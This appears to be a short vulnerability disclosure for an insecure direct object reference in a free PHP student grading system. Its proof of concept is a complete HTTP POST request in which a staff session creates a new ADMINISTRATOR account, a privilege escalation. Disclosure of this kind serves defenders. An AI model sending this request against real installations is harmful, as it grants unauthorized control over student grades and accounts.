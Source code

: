 # Insecure Direct Object Reference (IDOR) in Student Grading System

## Vendor Homepage:
> https://www.campcodes.com/projects/php/student-grading-system-using-php-mysql-free-download/


## Proof of Concept
**HTTP Request Example**
``` http request
POST /grading/rms.php?page=users HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/grading/rms.php?page=users
Cookie:PHPSESSID=<staff cookie>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

fname=tester&lname=staff&user=xx&pwd=xx123&type=ADMINISTRATOR
```

## Screenshot
![image](https://github.com/user-attachments/assets/c882ee49-210b-44f3-9354-906e9c4ac462)





## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
